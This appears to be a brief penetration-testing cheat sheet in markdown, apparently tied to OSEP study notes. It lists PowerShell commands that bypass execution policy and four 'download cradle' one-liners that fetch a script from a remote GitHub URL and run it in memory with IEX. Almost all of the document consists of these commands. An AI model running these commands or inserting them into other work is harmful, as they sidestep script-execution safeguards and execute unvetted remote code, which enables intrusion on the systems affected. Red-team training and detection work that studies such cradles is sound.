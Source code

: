 # Bypass EP
Start PowerShell from cmd.exe:

```powershell.exe -ep bypass```

If already running:

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass```

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted```

```$Env:PSExecutionPolicyPreference = 'Bypass'```


# Run Script cradles

```iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")```

```IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content```



```IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')```

```IEX ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content```



# Download Cradle and general good refs
https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md#download-cradle
